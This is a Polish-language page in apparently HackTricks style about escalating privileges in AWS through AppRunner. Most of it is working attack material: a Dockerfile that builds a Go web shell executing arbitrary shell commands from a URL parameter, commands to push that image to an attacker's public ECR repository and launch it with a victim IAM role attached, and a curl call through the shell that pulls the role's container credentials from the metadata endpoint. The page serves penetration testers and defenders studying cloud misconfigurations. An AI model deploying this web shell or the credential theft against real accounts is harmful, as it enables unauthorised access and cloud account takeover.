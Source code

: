 # AWS - AppRunner Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## AppRunner

### `iam:PassRole`, `apprunner:CreateService`

Atakujący posiadający te uprawnienia może utworzyć usługę AppRunner z dołączoną rolą IAM, co może prowadzić do eskalacji uprawnień poprzez uzyskanie dostępu do poświadczeń tej roli.

Atakujący najpierw tworzy Dockerfile, który służy jako web shell do wykonywania dowolnych poleceń na kontenerze AppRunner.
```Dockerfile
FROM golang:1.24-bookworm
WORKDIR /app
RUN apt-get update && apt-get install -y ca-certificates curl
RUN cat <<'EOF' > main.go
package main

import (
"fmt"
"net/http"
"os/exec"
)

func main() {
http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
command := exec.Command("sh", "-c", r.URL.Query().Get("cmd"))
output, err := command.CombinedOutput()
if err != nil {
fmt.Fprint(w, err.Error(), output)
return
}

fmt.Fprint(w, string(output))
})
http.ListenAndServe("0.0.0.0:3000", nil)
}
EOF
RUN go mod init test && go build -o main .
EXPOSE 3000
CMD ["./main"]
```
Następnie wypchnij ten obraz do repozytorium ECR.

Wypchnięcie obrazu do publicznego repozytorium w koncie AWS kontrolowanym przez atakującego umożliwia eskalację uprawnień, nawet jeśli konto ofiary nie ma uprawnień do manipulowania ECR.
```sh
IMAGE_NAME=public.ecr.aws/<alias>/<namespace>/<repo-name>:latest
docker buildx build --platform linux/amd64 -t $IMAGE_NAME .
aws ecr-public get-login-password | docker login --username AWS --password-stdin public.ecr.aws
docker push $IMAGE_NAME
docker logout public.ecr.aws
```
Następnie atakujący tworzy usługę AppRunner, skonfigurowaną z tym web shell image oraz z IAM Role, którą chce wykorzystać.
```bash
aws apprunner create-service \
--service-name malicious-service \
--source-configuration '{
"ImageRepository": {
"ImageIdentifier": "public.ecr.aws/<alias>/<namespace>/<repo-name>:latest",
"ImageRepositoryType": "ECR_PUBLIC",
"ImageConfiguration": { "Port": "3000" }
}
}' \
--instance-configuration '{"InstanceRoleArn": "arn:aws:iam::123456789012:role/AppRunnerRole"}' \
--query Service.ServiceUrl
```
Po oczekiwaniu na zakończenie tworzenia usługi użyj web shell, aby pobrać container credentials i uzyskać uprawnienia IAM Role przypisanego do AppRunner.
```sh
curl 'https://<service-url>/?cmd=curl+http%3A%2F%2F169.254.170.2%24AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'
```
**Potencjalny wpływ:** Bezpośrednie privilege escalation do dowolnej roli IAM, którą można przypisać do usług AppRunner.

{{#include ../../../../banners/hacktricks-training.md}}
